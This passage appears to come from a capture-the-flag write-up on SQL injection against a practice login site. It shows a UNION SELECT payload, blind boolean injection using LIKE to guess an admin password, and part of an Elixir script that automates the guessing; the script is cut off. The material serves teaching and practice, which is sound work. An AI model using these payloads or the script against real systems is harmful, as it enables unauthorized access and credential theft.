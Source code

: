 Input: 
```sql
' UNION SELECT supersecret516387017,1 FROM supersecret319030028 -- j
```

Flag: `flag{dr0p_1t_d0nt_p0p_it}`

#### Flag 5: Finding the Admin Password
The hint for the final flag is `your flag's in the admin password >:)`.

The admin password isn't stored in this database, so we are going to have to go back to the login page and log in as the admin.

A helpful keyword for getting this flag is `LIKE`. `LIKE` allows you to retrieve data which you only know part of. For example, you might want to get an row who's password starts with an 'a'. We can represent this in our query through `password LIKE 'a%'`. The % represents any combination of characters.

Try `admin' AND password LIKE 'a%' -- j` in the username field with any character in the password field.

You should have received an error saying that the username or password is invalid. This means that the password doesn't start with a.

Next, try `admin' AND password LIKE 'f%' -- j` in the username field with any character in the password field.

Now you should be logged in again, so the admin password starts with an f. If you continue this, you eventually will get the whole password! This is very tedious, so it would be good to write a program to try all the combinations for us.

Here is an Elixir script which does this!
```elixir
Mix.install([
  {:req, "~> 0.1.0"}
])

defmodule Sqli do
  @site "https://xn--158h.blairsec.mbhs.edu/login"

  def find_password(password) do
    list = get_chars()
    new_password = find_next_character(password, list)

    case String.last(new_password) == "}" do
      true -> new_password
      false -> find_password(new_password)
    end
  end

  def find_next_character(password, []), do: password

  def find_next_character(password, [head | tail]) do
    test_pass = password <> head

    case send_request(test_pass) do
      400 -> find_next_character(password, tail)
      _ -> test_pass
    end
  end

  def send_request(password) do
    response =
      Req.post!(
        @site,
        {:form, username: "admin' AND password LIKE '#{password}%' -- j", password: "a"}
      )

```